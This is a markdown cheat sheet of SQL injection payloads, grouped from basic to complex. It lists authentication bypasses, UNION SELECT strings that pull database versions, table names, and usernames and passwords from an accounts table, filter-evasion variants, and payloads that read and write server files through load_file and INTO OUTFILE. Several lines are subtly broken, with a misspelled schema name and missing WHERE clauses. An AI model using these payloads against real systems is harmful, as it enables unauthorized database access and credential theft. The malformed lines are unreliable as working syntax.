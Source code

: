 

### Summary:


__Basic__

>> __' OR 1=1 ;--__ 
    
>> __') OR 1=1; --__ 
   
>> __' and 'a'='a__

>> __' and 'a'='b__

   
&nbsp;
&nbsp;
&nbsp;

__Medium:__


| __1' and 1=1__ &nbsp;  | nbsp; True 


| __1' and 1=0__ &nbsp;  |  &nbsp; False 


| __1' order by 1 __ &nbsp; |  &nbsp; True


| __1' order by 10000__ &nbsp; | &nbsp; False


| __1 or db_name()=1);__ &nbsp;|  &nbsp;


| __1 or db_name(0)=1)__ &nbsp; | &nbsp; increase the number until the database does not show any errors



| __9999' UNION SELECT name,222,'else1' FROM master.syslogin; --__ 

&nbsp;
&nbsp;
&nbsp;

__Complex:__

| __union select 1, 2, 3 %23__                  &nbsp;&nbsp;  |  Bypass Web filters  | 


| __uNioN+sEleCt+1,2+%23__                      &nbsp;&nbsp;  |  Bypass Web filters  |  


| __uNioN`/**/`sEleCt`/**/`1,2`/**/`%23__       &nbsp;&nbsp;  |  Bypass Web filters  | 



>> UniOn selEct 1,version() /*


>> UniOn selEct 1,database() /*


>> UniOn selEct 1,user() /*


>> UniOn selEct 1,table_name frOm information_schema.tables table_schema = '[database name]' /*


>> UniOn selEct 1,column_name frOm information_schema.columns table_name = '[table name]' /*


>> UniOn selEct 1,[column name] frOm [table name] /*


>> UniOn selEct 1,load_file('file location') /*   Reading files:


>> UniOn selEct null,[file content] inTo outfile '/location/to/write/file/to' /*  Writing files 


>> union select 1, column_name, null, from Infromation_schema .columns where table_name = 0x769166__  &nbsp;&nbsp; | hex encoding                                                                                                                                dbname   


>>  __' union select 1, column_name, null, null, null, 5 from Infromation_schema.columns where table_name = 'accounts'__ | 


>>  __' union select username, pass, is_admin from 'accounts'__ &nbsp;&nbsp;  | 


>> __' union select 1, table_name, null, null, null, 5 from Infromation_schema.tables where table_schema = 'owasdb'__ |


